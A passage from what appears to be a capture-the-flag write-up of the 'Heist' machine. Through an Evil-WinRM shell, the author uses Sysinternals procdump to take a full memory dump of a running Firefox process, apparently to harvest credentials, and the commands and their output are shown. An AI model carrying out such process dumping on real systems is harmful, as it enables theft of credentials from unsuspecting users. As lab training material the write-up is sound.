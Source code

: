 Let's check whether its running? Yes `Firefox` is running.<br/>
![e2b5342d10bc1dbd805f4050777352c5.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-heist/6162aa5639be416babb93c56257f8771.png)

We can dump these processes using `procdump.exe`. We can download it from [here](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump).

If we run that `procdump.exe` it asks me to accept EULA first.
```
This is the first run of this program. You must accept EULA to continue.
Use -accepteula to accept EULA.
```

So by running `.\procdump64.exe -accepteula` we accepted that. Now its time to dump the process.
```
*Evil-WinRM* PS C:\Users\Chase\Documents> .\procdump64.exe -ma 4276

ProcDump v9.0 - Sysinternals process dump utility
Copyright (C) 2009-2017 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[12:18:00] Dump 1 initiated: C:\Users\Chase\Documents\firefox.exe_200425_121800.dmp
[12:18:01] Dump 1 writing: Estimated dump file size is 281 MB.
[12:18:07] Dump 1 complete: 281 MB written in 7.1 seconds
[12:18:08] Dump count reached.

*Evil-WinRM* PS C:\Users\Chase\Documents> 
```


> -ma     Write a 'Full' dump file.
  				Includes All the Image, Mapped and Private memory.

> 4276 	Firefox ID which I got from ps


Download that file to my machine. It takes some time because the file size is 281mb.
```
*Evil-WinRM* PS C:\Users\Chase\Documents> ls


    Directory: C:\Users\Chase\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        4/25/2020  12:18 PM      286846903 firefox.exe_200425_121800.dmp
-a----        4/25/2020  12:09 PM         341672 procdump64.exe


```